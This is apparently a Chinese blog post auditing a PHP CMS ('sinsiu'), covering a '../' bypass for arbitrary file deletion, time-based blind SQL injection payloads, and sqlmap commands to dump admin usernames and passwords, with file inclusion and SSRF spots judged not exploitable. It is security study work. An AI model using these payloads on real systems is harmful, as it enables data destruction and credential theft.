









## 任意文件删除

文件删除函数只考虑到了白名单路径，但是没有想到 `../`

```php
function del_file()
{
	$path = post('path');
	$path = str_replace('../','',$path);
	$dir[0] = 'data/backup/';
	$dir[1] = 'images/';
	$dir[2] = 'resource/';
	$flag = false;
	for($i = 0; $i < count($dir); $i ++)
	{
		if(substr($path,0,strlen($dir[$i])) == $dir[$i])
		{
			$flag = true;
		}
	}
	if($flag)
	{
		if(unlink($path))
		{
			$result = 1;
		}
	}
	echo isset($result) ? $result : 0;
}
```

根目录新建 aaaa.txt  
然后发送请求  


成功删除文件

## 后台注入

### 延时注入

`or if(length(database())=6,sleep(3),0)`  
如果数据库名的长度为6，那么就 `sleep(3)`  
我测试的时候数据库名为 `xinxiu` ，所以就会出现一定的延时



延时注入的其他例子

```
# 判断当前数据库长度 # 当前数据库长度是否为 1 没有延时 不是 
cmd=del_admin&id=3 or if(length(database())=1,sleep(3),0) 
# 延时 表明当前数据库长度为 6 
cmd=del_admin&id=3 or if(length(database())=6,sleep(3),0) 
# 当前数据库第1个字母的ascii码是否为 97 没有延时 不是 
cmd=del_admin&id=3 or if(ascii(mid(database(),1,1))=97,sleep(3),0) 
# 延时 表明当前数据库第1个字母的ascii码为 115 即 's' 
cmd=del_admin&id=3 or if(ascii(mid(database(),1,1))=115,sleep(3),0) 
# 当前数据库第2个字母的ascii码是否为 97 没有延时 不是 
cmd=del_admin&id=3 or if(ascii(mid(database(),2,1))=97,sleep(3),0) 
# 延时 表明当前数据库第2个字母的ascii码为 105 即 'i' 
cmd=del_admin&id=3 or if(ascii(mid(database(),2,1))=105,sleep(3),0) ...
```

注意这里不能用 and ,因为这个 id=3 的用户实际上不存在，所以就不再需要去执行 and 另一边的语句了(短路！)

但是如果这个用户存在当然是可以的咯(那样注入就很麻烦了)



但是我按照国光的方法使用 sqlmap 失败了

```
./sqlmap.py -u "http://127.0.0.1/admin.php?/deal/dir-basic/" --cookie="qaq21129s234bj1q4ammcs7fe5;" --data="cmd=del_admin&id=3" -p "id" --technique=T --random-agent -v 3 --tamper="between" -D 'sinsiu' -T 'php_admin' -C 'adm_id,adm_username,adm_password' --dump
```



### 另一处后台注入

`search_main.php` 文件

```php
$global['key'] = rawurldecode($global['key']);
$obj = new goods();
$obj->set_field('goo_id,goo_title,goo_x_img');
$obj->set_where("goo_title like '%" . $global['key'] . "%'");
$obj->set_where('goo_channel_id = '.get_id('channel','cha_code','goods'));
```

这里忘记过滤了

```php
$obj->set_where("goo_title like '%" . $global['key'] . "%'");
```



同样的尝试使用 `sqlmap` 但是还是失败了(怕是个假的吧)

```
./sqlmap.py -u "http://localhost/?/search/index.html/key-%27*%20%23/" -v 3 --technique=T -D 'sinsiu' -T 'php_admin' -C 'adm_id,adm_username,adm_password' --dump
```

## 文件包含

`admin/basic_func.php` 中：

`$global['channel']` 参数可控，比如访问 `/admin.php?/service/mod-user_sheet/`,那么获取到的是 `service` ，之后判断文件是否存在进行包含

```php
global $global;
$global = array();
var_dump($_SERVER['QUERY_STRING']);
$global['url'] = $filter($_SERVER['QUERY_STRING']);
if($global['url'] != '')
{
	$arr = explode('/',$global['url']); //以 / 做分隔符
	$global['channel'] = $arr[1];
	var_dump($global);
```



```php
function main()
{
	global $global,$smarty;
	set_global();
	include_all('admin/class');
	set_more_global();
	$path = 'admin/admin.php';
	if($global['url'] != '')
	{
		$path2 = 'admin/'.$global['channel'].'.php'; //获取到 $global['channel'] 这个参数可控
		var_dump(file_exists($path2));
		if(file_exists($path2))
		{
			$path = $path2;
		}
	}
	include($path);
}
```

但是这里如果传入 `../` 那么就会导致 `file_exists` 返回错误，所以暂时无能为力

`admin/common.func.php` 文件中

```php
function run($parameter)
{
	global $smarty;
	$path = '';
	$display = '';
	extract($parameter); //extract函数存在变量覆盖，但是参数不可控
	$func = 'module_'.$module;
	include('admin/module/'.$path.$module.'.php');
	$func($parameter);
	if($display != 'no')
	{
		$smarty->display('module/'.$path.$module.'.php');
	}
}
```

## 任意写文件

`common.func.php` 存在一处编辑配置文件



当然此处是可以随意修改文件的，只是没办法写shell



可见过滤还是挺严格的



## SSRF

`getRemoteImage.php` 文件中，

可以获取远程图片

首先必须是 http开头的

```php
if(strpos($imgUrl,"http")!==0){
                array_push( $tmpNames , "error" );
                continue;
            }
```

校验了后缀名

```php
$fileType = strtolower( strrchr( $imgUrl , '.' ) );
if ( !in_array( $fileType , $config[ 'allowFiles' ] ) || stristr( $heads[ 'Content-Type' ] , "image" ) ) {
    array_push( $tmpNames , "error" );
    continue;
}
```

相关的白名单

```php
$config = array(
    "savePath" => "../../images/editor/" ,            //保存路径
    "allowFiles" => array( ".gif" , ".png" , ".jpg" , ".jpeg" , ".bmp" ) , //文件允许格式
    "maxSize" => 30000                    //文件大小限制，单位KB
);
```

之后会读取文件

```php
readfile( $imgUrl,false,$context);
```

这么看来感觉问题不大

## 参考

[PHP代码审计初尝](https://www.sqlsec.com/2020/01/sinsiu.html#toc-heading-21)
